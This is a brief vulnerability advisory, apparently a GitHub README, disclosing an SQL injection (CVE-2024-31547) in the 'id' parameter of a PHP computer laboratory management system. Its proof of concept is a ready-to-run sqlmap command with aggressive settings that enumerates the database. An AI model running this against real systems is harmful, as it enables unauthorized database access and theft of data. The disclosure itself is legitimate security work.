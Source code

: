 
# CVE-2024-31547 SQL Injection in Computer Laboratory Management System
+ Exploit Author: Emirhan Mutlu
# Vendor Homepage
+ https://www.sourcecodester.com/php/17268/computer-laboratory-management-system-using-php-and-mysql.html
# Software Link
+ https://www.sourcecodester.com/php/17268/computer-laboratory-management-system-using-php-and-mysql.html
# Overview
+ A SQL Injection vulnerability in Computer Laboratory Management System v1.0 allows attackers to execute arbitrary SQL commands on the database server and exfiltrate sensitive data.
# Vulnerability Details
+ CVE ID: CVE-2024-31547
+ Vulnerable Endpoint: /php-lms/admin/item/view_item.php?id=1
+ Parameter: id
# Description
+ The lack of proper input validation and sanitization on the 'id' parameter allows an attacker to craft SQL injection queries and gaining unauthorized access to the database.

# Proof of Concept (PoC) : 
+ `sqlmap -u "http://localhost/php-lms/admin/item/view_item.php?id=1" --batch --level 5 --risk 3 --dbms=mysql --current-db --threads 10`
